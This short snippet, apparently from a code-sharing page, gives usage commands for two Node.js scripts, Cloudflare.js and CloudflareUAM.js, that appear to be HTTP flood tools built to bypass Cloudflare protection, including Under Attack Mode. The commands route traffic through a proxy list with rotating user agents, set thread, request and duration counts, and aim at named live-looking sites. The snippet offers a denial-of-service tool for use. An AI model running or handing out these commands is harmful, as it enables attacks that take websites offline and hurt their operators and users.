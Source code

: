 Usage -

[Usage For Cloudflare, None]
node Cloudflare.js --url https://alts.rip/ --proxyfile YOURHTTPSPROXIES.txt --uafile ua.txt --threads 5 --requests 5 --seconds 100
[Usage For Cloudflare, UAM] 
node CloudflareUAM.js --url https://darkvps.org/hosting/ --proxyfile YOURHTTPSPROXIES.txt --uafile ua.txt --threads 5 --requests 5 --seconds 100
